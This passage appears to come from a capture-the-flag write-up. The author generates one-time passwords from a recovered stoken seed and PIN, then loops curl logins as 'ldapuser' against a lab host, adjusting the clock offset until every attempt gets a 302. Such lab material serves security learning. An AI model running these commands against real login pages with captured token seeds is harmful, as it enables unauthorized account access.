 
#### Adjust Time

Just guessing around 8 minutes got me close, but I noticed sometimes I got
errors just after the minute changes. I ran a loop to check how many seconds I
was off:

    
    
    root@kali# for i in {1..100}; do d=$(date); echo -n $d; curl -vv -s http://10.10.10.122/login.php -d "inputUsername=ldapuser&inputOTP=$(stoken --token=2854494900
    11357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-480 --pin=0000)" 2>&1 | grep 302; sleep 1; done  
    Sun Feb 10 11:39:54 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:39:56 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:39:57 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:39:58 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:39:59 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:40:00 EST 2019Sun Feb 10 11:40:01 EST 2019Sun Feb 10 11:40:03 EST 2019Sun Feb 10 11:40:04 EST 2019Sun Feb 10 11:40:05 EST 2019Sun Feb 10 11:40:06 EST 2019Sun Feb 10 11:40:07 EST 2019Sun Feb 10 11:40:09 EST 2019Sun Feb 10 11:40:10 EST 2019Sun Feb 10 11:40:11 EST 2019Sun Feb 10 11:40:12 EST 2019Sun Feb 10 11:40:13 EST 2019Sun Feb 10 11:40:15 EST 2019Sun Feb 10 11:40:16 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:40:17 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:40:18 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:40:19 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:40:21 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:40:22 EST 2019< HTTP/1.1 302 Found
    ^C
    

I checked this a couple times, and it consistently failed to get a 302 from
:00 through :14 or :15. So I changed my offset by 15 seconds, and then it
worked beautifully.

    
    
    root@kali# for i in {1..100}; do d=$(date); echo -n $d; curl -vv -s http://10.10.10.122/login.php -d "inputUsername=ldapuser&inputOTP=$(stoken --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-495 --pin=0000)" 2>&1 | grep 302; sleep 1; done
    Sun Feb 10 11:42:54 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:42:55 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:42:56 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:42:58 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:42:59 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:00 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:01 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:02 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:03 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:05 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:06 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:07 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:08 EST 2019< HTTP/1.1 302 Found
    ^C
    
